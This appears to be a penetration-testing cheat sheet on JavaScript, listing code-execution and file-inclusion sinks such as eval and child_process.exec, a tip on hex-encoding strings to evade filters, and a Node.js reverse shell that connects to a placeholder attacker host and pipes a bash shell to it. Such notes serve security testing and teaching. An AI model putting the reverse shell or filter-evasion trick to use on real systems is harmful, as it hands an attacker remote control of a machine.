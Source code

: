 # JavaScript

### Notes
- JavaScript strings can be natively hex-encoded e.g. `"\\\\x2fbin\\\\x2fbash"` - useful for string/regex bypass

### Dangerous Functions

```
# RCE
eval()                  //evaluate string as a javascript code
safe-eval()             //same as eval, but more secure.
setTimeout(string, 2)
setInterval(string)
Function(string)

# Command Execution
child_process.exec()

# LFI
require()
```

### Reverse Shell

```
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
